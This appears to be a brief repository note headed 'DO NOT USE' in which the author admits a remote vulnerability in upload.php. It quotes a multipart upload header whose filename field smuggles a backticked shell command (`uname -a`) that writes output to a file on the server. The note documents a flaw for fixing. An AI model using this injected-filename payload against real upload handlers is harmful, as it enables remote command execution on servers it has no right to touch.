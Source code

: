 # DO NOT USE

There is a remote vulnerability in upload.php that I need to fix. I should just not use PHP to be safer.

	Content-Disposition: form-data; name="f"; filename="12;`uname -a>rce_here.txt`3.jptxt"
